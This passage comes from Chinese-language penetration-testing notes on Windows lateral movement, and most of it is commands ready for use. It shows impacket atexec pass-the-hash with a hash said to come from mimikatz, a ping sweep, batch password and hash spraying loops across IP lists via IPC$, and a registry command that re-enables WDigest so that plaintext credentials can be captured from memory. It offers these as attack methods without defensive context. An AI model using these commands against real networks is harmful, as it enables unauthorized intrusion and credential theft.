 ```powershell
#案例 2-横向渗透明文 HASH 传递 atexec-impacket
atexec.exe ./administrator:123/@192.168.3.21 "whoami"
atexec.exe god/administrator:abc.123.com@192.168.10.1 "ver"
atexec.exe -hashes :ccef208c6485269c20db2cad21734fe7 ./administrator@192.168.10.1 "whoami"  # 该hash值是通过minikatz抓取的
```

### 案例三 横向渗透明文HASH传递批量-综合

```powershell
# 用ping命令探测内网网段存活的主机
for /L %i in (1,1,254) DO @ping -w 1 -n 1 192.168.216.%i | findstr "TTL="

# 批量传递
FOR /F %%i in (ips.txt) do net use \\%%i\ipc$ "admin!@#45" /user:administrator #批量检测 IP 对应明文
# 连接
FOR /F %%i in (ips.txt) do atexec.exe ./administrator:admin!@#45@%%i whoami #批量检测 IP 对应明文
# 回显版
FOR /F %%i in (pass.txt) do atexec.exe ./administrator:%%i@192.168.3.21 whoami #批量检测明文对应 IP
# 回显版
FOR /F %%i in (hash.txt) do atexec.exe -hashes :%%i ./administrator@192.168.3.21 whoami #批量检测
HASH 对应 IP
```

### 案例四 横向渗透明文HASH传递批量利用

除了收集了明文和HASH，也可以收集到用户名

那么可以IP变、明文或HASH变，用户名变

可以用Python写，pyinstaller打包

## 注意

* Windows2012以上版本默认关闭wdigest，攻击者无法从内存中获取明文密码
* Windows2012以下版本如安装KB2871997补丁，同样也会导致无法获取明文密码

这针对的就是mimikatz从内存中获取明文密码

因此我们可以通过下面5种方式解决此问题

1. 利用哈希hash传递（pth，ptk等）进行移动
2. 利用其他服务协议（SMB，WMI等）进行哈希移动
3. at & schtasks & impacket-atexec

**前两种是得到hash值后进行hash传递**

1. 利用注册表操作开启Wdigest Auth值进行获取

```powershell
# 修改注册表命令
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```

1. 利用工具或第三方平台（Hachcat）进行破解获取
